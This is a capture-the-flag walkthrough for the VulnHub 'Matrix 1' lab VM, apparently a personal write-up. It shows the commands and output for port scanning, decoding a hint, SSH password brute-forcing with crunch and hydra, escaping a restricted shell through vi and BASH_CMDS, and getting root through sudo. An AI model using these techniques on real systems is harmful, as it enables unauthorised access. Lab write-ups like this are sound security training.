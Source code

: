 [https://www.vulnhub.com/entry/matrix-1,259/](https://www.vulnhub.com/entry/matrix-1,259/?ref=rootandbeer.com)

Description: Matrix is a medium level boot2root challenge. The OVA has been tested on both VMware and Virtual Box.

-   Difficulty: Intermediate
-   Flags: Your Goal is to get root and read /root/flag.txt
-   Networking: DHCP: Enabled IP Address: Automatically assigned
-   Hint: Follow your intuitions ... and enumerate!

**Initial *[[Nmap]]* scan**
```bash
└─$ nmap -A 192.168.5.104    
22/tcp    open  ssh     OpenSSH 7.7 (protocol 2.0)
80/tcp    open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
31337/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
```

**In page source of 192.168.5.104:31337 :**

>ZWNobyAiVGhlbiB5b3UnbGwgc2VlLCB0aGF0IGl0IGlzIG5vdCB0aGUgc3Bvb24gdGhhdCBiZW5kcywgaXQgaXMgb25seSB5b3Vyc2VsZi4gIiA+IEN5cGhlci5tYXRyaXg=

```bash
└─$ echo ZWNobyAiVGhlbiB5b3UnbGwgc2VlLCB0aGF0IGl0IGlzIG5vdCB0aGUgc3Bvb24gdGhhdCBiZW5kcywgaXQgaXMgb25seSB5b3Vyc2VsZi4gIiA+IEN5cGhlci5tYXRyaXg= | base64 -d

echo "Then you'll see, that it is not the spoon that bends, it is only yourself. " > Cypher.matrix
└─$ curl http://192.168.5.104:31337/Cypher.matrix
```

**Multi decoded @ [https://www.cachesleuth.com/multidecoder/](https://www.cachesleuth.com/multidecoder/?ref=rootandbeer.com) :**

> *You can enter into matrix as guest, with password k1ll0rXX*
> 
> *Note: Actually, I forget last two characters so I have replaced with XX try your luck and find correct string of password.*

**Generate wordlist with [[Crunch]] & bruteforce SSH with [[Hydra]]**

```bash
└─$ crunch 8 8 -t k1ll0r@@ -o wordlist.txt -f /usr/share/crunch/charset.lst mixalpha-numeric-all-space

└─$ hydra -l guest -P wordlist.txt ssh://192.168.5.104:22
[22][ssh] host: 192.168.5.104  login: guest password: k1ll0r7n
```

```bash
└─$ ssh guest:k1ll0r7n@192.168.5.104
```

**We are in a restricted shell with limited commands. `echo` works and we can use it to list directory contents. We can also use "source" to read files**

```bash
guest@porteus:~$ echo *
Desktop Documents Downloads Music Pictures Public Videos prog
guest@porteus:~$ echo prog/*
prog/vi
```

```bash
guest@porteus:~$ source /etc/passwd
sh: trinity:x:1001:1001::/home/trinity:/bin/bash: No such file or directory
```

**Restricted shell escape using vi method:**

>[!Optional] Option 1
> ```bash
> guest@porteus:~$ vi -c ':!/bin/sh' /dev/null
> ```

>[!Optional] Option 2
>```bash
>guest@porteus:~$ BASH_CMDS[a]=/bin/sh;a
>```

**Privilege escalation via sudo:**

```bash
guest@porteus:~$ /usr/bin/sudo -l
User guest may run the following commands on porteus:
    (ALL) ALL
    (root) NOPASSWD: /usr/lib64/xfce4/session/xfsm-shutdown-helper
    (trinity) NOPASSWD: /bin/cp
```

```bash
guest@porteus:~$ /usr/bin/sudo /bin/sh
```

**Enter guest password**

```bash
sh-4.4
root
```

**Capture the flag:**

```bash
sh-4.4
   _,-.                                                             
,-'  _|                  EVER REWIND OVER AND OVER AGAIN THROUGH THE
|_,-O__`-._              INITIAL AGENT SMITH/NEO INTERROGATION SCENE
|`-._\`.__ `_.           IN THE MATRIX AND BEAT OFF                 
|`-._`-.\,-'_|  _,-'.                                               
     `-.|.-' | |`.-'|_     WHAT                                     
        |      |_|,-'_`.                                            
              |-._,-'  |     NO, ME NEITHER                         
         jrei | |    _,' 
              '-|_,-'          IT'S JUST A HYPOTHETICAL QUESTION  
```

---